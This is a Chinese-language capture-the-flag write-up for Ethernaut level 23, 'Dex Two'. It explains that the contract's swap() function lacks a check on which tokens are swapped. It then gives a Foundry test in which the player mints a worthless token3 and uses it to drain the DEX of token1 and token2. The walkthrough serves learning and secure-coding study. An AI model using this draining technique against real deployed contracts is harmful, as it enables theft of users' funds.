


<div align="center">
<p align="left">(<a href="https://github.com/XuHugo/Ethernaut-Foundry-Solutions/tree/main/solutions">back</a>)</p>


<br><br>
<h1><strong>Ethernaut Level 23 - Dex Two</strong></h1>

</div>
<br>

详细解读文章: [Ethernaut Foundry Solutions | Level 23 - Dex Two](https://blog.csdn.net/xq723310/)

## 目录

- [目录](#目录)
- [目标](#目标)
- [漏洞](#漏洞)
- [解答](#解答)
- [要点](#要点)

## 目标

Dex Two 和 Dex 差别就在于, DexTwo 需要将Dex 合约中的 token1 以及 token2 两个代币通通归零。


## 漏洞

其实和前一关的合约几乎一模一样，唯一不同的地方出现在`swap()`，函式内少了一个行代码：
```javascript
require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
```
正好缺少了token检查，现在的 Dex可以接受任何代币进行交换而不限于 token1 和 token2，导致 Dex 合约存在漏洞。

`swap()` 函数:

```javascript
function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swapAmount = getSwapPrice(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swapAmount);
    IERC20(to).transferFrom(address(this), msg.sender, swapAmount);
  }
```

举个例子，假设我持有 400 个同为 ERC-20 的 token3，首先给 Dex 添加 100 个 token3 的流动性，可以通过批准后调用add_liquidity()或者直接转账给 Dex。

接下来，执行第一次`swap()`，from对应token3地址，to对应token1地址，amount为100，根据getSwapAmount()计价公式计算，我会减少100个token3，增加100个token1。

最后，执行第二次`swap()`，from对应token3地址，to对应token2地址，amount为200，同样的计价公式算完后，我会减少200个token3，增加100个token2。


## 解答

攻击合约实现

```javascript
    function testattacker() public {
        vm.startPrank(player1, player1);

        SwappableTokenTwo token3 = new SwappableTokenTwo(
            address(instance),
            "Token 3",
            "TKN3",
            10_000
        );

        token1.approve(address(instance), 2 ** 256 - 1);
        token2.approve(address(instance), 2 ** 256 - 1);
        token3.approve(address(instance), 2 ** 256 - 1);

        ERC20(token3).transfer(address(instance), 1);

        instance.swap(address(token3), address(token1), 1);
        instance.swap(address(token3), address(token2), 2);

        assertEq(
            token1.balanceOf(address(instance)) == 0 &&
                token2.balanceOf(address(instance)) == 0,
            true
        );

        vm.stopPrank();
    }
```

你可以在项目的根目录执行以下命令，进行验证：

```bash
forge test --match-contract  DexTwoTest  -vvvvv
```

## 要点

- 一定要验证入参啊.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
